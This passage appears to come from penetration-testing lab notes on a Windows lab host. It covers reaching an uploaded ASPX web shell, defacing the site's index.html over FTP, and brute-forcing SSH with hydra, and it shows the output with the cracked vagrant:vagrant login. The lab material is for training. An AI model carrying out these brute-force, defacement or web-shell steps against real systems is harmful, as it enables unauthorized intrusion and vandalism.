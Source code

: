 - Open the browser and navigate to
  - `10.2.29.246/shell.aspx`
- In this case the reverse shell don't work.
- The next step of an attacker can be to **deface the website** - modifying the web application

```bash
ftp 10.2.29.246
get index.html
# modify the index.html than upload the edited web page
put index.html
```

### [OpenSSH](../3-metasploit/ssh-msf-exp.md)

> Obtain the new target IP if the lab was restarted.
>
> Target IP: `10.2.16.83`
>
> Based on the FTP Enumeration:
>
> - `administrator`:`vagrant`
> - `vagrant`:`vagrant`

```bash
nmap -sV -sC -p 22 10.2.16.83
```

```bash
22/tcp open  ssh     OpenSSH 7.1 (protocol 2.0)
| ssh-hostkey: 
|   2048 83:56:2e:69:b5:2d:b4:9a:e4:7f:97:86:d8:bc:ae:7b (RSA)
|_  521 c0:e2:da:9d:e2:1e:58:09:7e:80:07:ec:3e:b4:57:f5 (ECDSA)
```

```bash
searchsploit OpenSSH 7.1
# Use username enumeration if needed
```

- **Brute-force SSH**

```bash
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh

hydra -l administrator /usr/share/wordlists/metasploit/unix_users.txt 10.2.16.83 ssh
# No valid password for SSH - administrator
```

```bash
[22][ssh] host: 10.2.16.83   login: vagrant   password: vagrant
```

![](.gitbook/assets/image-20230424114404462.png)
